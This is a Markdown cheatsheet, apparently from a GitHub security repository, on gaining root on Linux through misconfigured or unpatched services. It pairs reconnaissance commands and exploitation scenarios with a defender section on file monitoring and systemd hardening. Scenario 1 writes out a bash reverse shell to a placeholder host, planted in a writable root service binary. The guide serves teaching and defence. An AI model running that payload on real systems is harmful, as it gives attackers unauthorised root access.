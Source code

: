 ## 🚪 Cheatsheet: Service Exploitation Privilege Escalation

Services are background processes (daemons) that provide core system functionality, like a web server (Apache), a database (MySQL), or a scheduler (cron). Many of these services run with **root** privileges. An attacker can gain root on the system by either exploiting a vulnerability in the service's software itself (e.g., an unpatched bug) or by abusing weak permissions on the service's binary or configuration files.

### ## What to Look For (Reconnaissance)

An attacker needs to identify what services are running, who they are running as, and if any of them are misconfigured.

* **List Running Processes & Services:**
    ```bash
    # See all processes and their owners
    ps aux

    # Filter for processes running as root
    ps aux | grep '^root'

    # List all active services (on systemd systems)
    systemctl list-units --type=service --state=running
    ```

* **Scan for Listening Ports:**
    Use `netstat` or `ss` to see what services are listening for connections, especially on `localhost`.
    ```bash
    netstat -tulpn
    ss -tulpn
    ```

* **Check Service File Permissions:**
    Once you identify a service running as root, check the permissions of its executable and configuration files.
    ```bash
    # Find the service's executable path
    systemctl status <service-name>

    # Check permissions
    ls -l /path/to/service-binary
    ls -l /etc/service/config.conf
    ```

* **Identify Software Versions:**
    Find the version number of the service's software to search for public exploits in databases like Exploit-DB.
    ```bash
    apache2 -v
    mysql --version
    ```

---

### ## Common Exploitable Scenarios & Payloads

The goal is to hijack the execution flow of a service that runs as root.

#### **Scenario 1: Writable Service Binary**
The executable file for a service running as root is writable by a low-privileged user.

* **Exploitation:**
    1.  Find a writable service binary (e.g., `/usr/sbin/custom-service`).
    2.  Make a backup of the original binary. `mv /usr/sbin/custom-service /tmp/custom-service.bak`
    3.  Create a malicious payload (e.g., a reverse shell) and save it with the same name as the service binary.
        ```bash
        echo '#!/bin/bash' > /usr/sbin/custom-service
        echo 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1' >> /usr/sbin/custom-service
        chmod +x /usr/sbin/custom-service
        ```
    4.  Restart the service (or wait for a reboot/crash). The system will execute your payload as root.
        ```bash
        # If you have limited sudo rights for this action:
        sudo systemctl restart custom-service
        ```

#### **Scenario 2: Writable Configuration File**
The service's config file is writable, and the service has a feature to load modules or execute commands.

* **Exploitation (Example with Apache):**
    If `/etc/apache2/apache2.conf` is writable, an attacker could add a line to load a malicious module (`.so` file) that gives them a shell.

#### **Scenario 3: Unpatched Software Vulnerability**
A service is running an old version with a known public privilege escalation exploit.

* **Exploitation:**
    1.  Identify the version (e.g., `SomeDB v1.2.3`).
    2.  Use `searchsploit` to find an exploit for that version.
    3.  Download, compile, and run the exploit against the service to get a root shell.

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **File Integrity Monitoring (FIM):** This is the most effective defense. Use **AIDE**, **Tripwire**, or **Wazuh** to monitor all service binaries and configuration files. Any unauthorized modification should trigger an immediate alert.
* **Log Monitoring:** Watch for services that are repeatedly crashing and restarting. Check service logs in `/var/log/` or via `journalctl -u <service-name>` for errors or unusual activity.

#### **How to Prevent Service Exploitation**

* **Patch Management:** Keep all software and services up to date. Run regular vulnerability scans to identify outdated software with known exploits and apply security patches promptly.
* **Enforce Strict File Permissions:** All service executables and configuration files should be owned by `root` and should **not** be writable by other users. Use `chmod 755` for binaries and `chmod 644` for configuration files.
* **Principle of Least Privilege:** **Do not run services as root unless absolutely necessary.** Create dedicated, unprivileged user accounts for each service (e.g., `www-data` for Apache, `mysql` for MySQL). If the service is compromised, the attacker will be contained within that user's limited permissions.
* **Harden `systemd` Unit Files:** Use the built-in security features in `systemd` to sandbox your services. Add these options to the `[Service]` section of a unit file:
    * `ProtectSystem=strict`: Makes the host OS directories read-only to the service.
    * `PrivateTmp=true`: Gives the service its own private `/tmp` directory.
    * `NoNewPrivileges=true`: Prevents the service's children from gaining more privileges.
